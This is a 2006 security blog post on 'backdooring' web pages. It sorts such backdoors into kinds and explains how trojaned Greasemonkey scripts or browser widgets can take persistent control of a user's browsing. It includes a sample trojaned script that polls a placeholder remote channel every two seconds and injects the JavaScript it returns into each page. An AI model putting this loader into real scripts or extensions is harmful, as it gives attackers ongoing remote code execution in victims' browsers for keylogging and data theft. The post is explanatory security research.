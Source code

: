 ```yaml
---
title: Backdooring Web Pages
author: pdp
date: Mon, 28 Aug 2006 11:09:08 GMT
template: post.pug
category: fucked
---
```


![Greasemonkey](/files/2006/08/greasemonkey.jpg "Greasemonkey")

The most obvious way of maliciously infecting web pages is to perform Cross-Site Scripting (XSS). In practice, XSS vulnerabilities can be persistent and non-persistent. Depending on the type, the attacker has various degree of control. The persistent vector produces better results and it lasts longer, where non-persistent vector lasts a single hit, although it is possible for the attacker to take control of the user browser by using other techniques. Here I am trying to explore another vector that can permanently take control of the user web experience.

IMHO, there are three types of web page backdoors: non-persistent, persistent and global persistent. Non-persistent backdoors occur on a single XSS vulnerable page (hit). Persistent backdoors a bit better because they can occur on one or more XSS vulnerable pages most probably coming from the same domain (site). Global persistent backdoors occur on all domains (sites) and in theory they can last forever.

Global persistent backdoors do not rely on the server being vulnerable to XSS or any other type of server related vulnerability. Global persistent backdoors exploit browser functionalities.

In order to install global persistent backdoor the attacker can exploit known browser vulnerabilities which allow silent installation of new functionalities, exploit known extension vulnerabilities which allow [Cross Context Scripting](/blog/cross-context-scripting) (execution of malicious web content in the browser context) or [exploit the user's trust](/blog/xssing-the-lan-4) ([trojaning](/blog/xssing-the-lan-3)).

The first two scenarios rely on a browser or a browser's extensions being vulnerable. Finding those vulnerabilities may take some time and it might not be that feasible, not to mention the fact that once an attacker exploits them the entire system probably will be subjected to attacker's wishes. On the other hand, the last scenario tricks the user into performing something legitimate which in fact turns to be something malicious (trojaning). This quite old trick but very successful and widely exploited as well.

Exploiting the user's trust in order to install backdoor could be achieved in several ways each one of which provides various degree of success. The first one is asking the user to install a browser extension. This type of scenario could be successful in browsers that do not have central extension repositories. In that respect IE is probably the most vulnerable. Opera, with its Web Widgets could potentially fall into the same category. On the other hand, Firefox users tend to install extensions from known sources such as `addons.mozilla.org`, so they are the least vulnerable.

The second scenario occurs when the attacker is asking the user to install extensions of extension. This one is far more trusted since extensions of extension are believed to be harmless. Firefox's and IE's Greasemonkey extension and Opera's Web Widgets are good examples of those kinds of scenarios.

To some respect, security aware users could detect malicious scripts so they are less vulnerable. On the other hand the average user trusts the security model of the browser, so  trojaned Greasemonkey script can be quite easily installed. A sample trojaned script can contain something like the following:

    setInterval(function () {
    	var head = document.getElementsByTagName('head').item(0);
    	var old  = document.getElementById('last_loaded_cmd');

    	if (old)
    		head.removeChild(old);

    	script = document.createElement('script');
    	script.src = 'http://path/to/channel';
    	script.type = 'text/javascript';
    	script.defer = true;
    	script.id = 'last_loaded_cmd';
    	void(head.appendChild(script));
    }, 2000);

The code presented above will query every 2 seconds  **http&#58;//path/to/channel** for JavaScript code that is evaluated inside the currently open page. This model allows attackers to inject any type of JavaScript based tool (scanners, other communication channels, page key loggers, etc). Similar effect can be achieved with Opera's Web Widgets although modifications of this code are required.

This type of backdoor has a big problem. Once the user finds that the Greasemonkey script (or the Web Widget) is not needed anymore, or that it contains malicious code, proper cleaning actions will be taken.

_This is good but like any other malicious code, web page backdoors can assure the existence of hidden channels for reinstallation and further propagation. In that respect the backdoor could perform internal cross site scripting by poisoning cookies or flash objects such as [The Flash Persistent Storage Model](http://codinginparadise.org/projects/storage/README.html) which is widely used in several AJAX frameworks. Other countermeasures can be taken as well such as taking advantage of the page caching issues. All of these are related to a discipline known as DOM based Cross-site scripting._
